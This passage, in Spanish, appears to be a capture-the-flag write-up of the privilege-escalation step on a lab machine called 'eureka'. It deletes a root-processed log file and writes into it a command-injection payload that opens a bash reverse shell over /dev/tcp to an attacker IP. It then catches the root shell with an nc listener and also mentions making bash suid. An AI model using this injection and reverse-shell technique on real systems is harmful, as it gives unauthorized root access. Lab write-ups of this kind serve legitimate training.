 Este conflicto de permisos ocurre porque tenemos permisos de escritura a nivel de grupo (`developers`) sobre el directorio pero no sobre el archivo `application.log`

~~~ bash
miranda-wise@eureka:~$ ls -l /var/www/web/user-management-service/log/application.log
-rw-rw-r-- 1 www-data www-data 17361 Aug 31 19:41 /var/www/web/user-management-service/log/application.log

miranda-wise@eureka:~$ ls -la /var/www/web/user-management-service/log
total 48
drwxrwxr-x 3 www-data developers  4096 Aug 31 15:54 .
drwxrwxr-x 6 www-data developers  4096 Mar 19 22:07 ..
-rw-rw-r-- 1 www-data www-data   17361 Aug 31 19:41 application.log
-rw-rw-r-- 1 www-data www-data    6558 Apr 23 07:36 application.log.2025-04-22.0.gz
-rw-rw-r-- 1 www-data www-data    6571 Aug 31 15:54 application.log.2025-04-23.0.gz
drwxrwxr-x 2 www-data www-data    4096 Apr  9 18:20 archive

miranda-wise@eureka:~$ id
uid=1001(miranda-wise) gid=1002(miranda-wise) groups=1002(miranda-wise),1003(developers)
~~~


## Root Time

Podemos simplemente renombrar el archivo `application.log` y volver a intentar crearlo y directamente eliminarlo

~~~ bash
miranda-wise@eureka:$ rm -f /var/www/web/user-management-service/log/application.log
~~~

A la hora de inyectar el comando, en mi caso envié directamente una consola a mi máquina por el puerto `443`, pero si quieres puedes asignar `suid` a la `bash` o lo que te convenga

~~~ bash
miranda-wise@eureka:~$ echo 'HTTP Status: a[$(bash -c "bash -i >& /dev/tcp/10.10.14.132/443 0>&1")]' > /var/www/web/user-management-service/log/application.log
~~~

Inmediatamente iniciaremos un listener por el puerto que elegimos para recibir la reverse shell

~~~ bash
nc -lvnp 443                                           
listening on [any] 443 ...
~~~

Al cabo de un minuto, recibiremos la conexión como el usuario `root`

~~~ bash
connect to [10.10.14.132] from (UNKNOWN) [10.10.11.66] 40166
bash: cannot set terminal process group (315936): Inappropriate ioctl for device
bash: no job control in this shell
root@eureka:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@eureka:~#
~~~
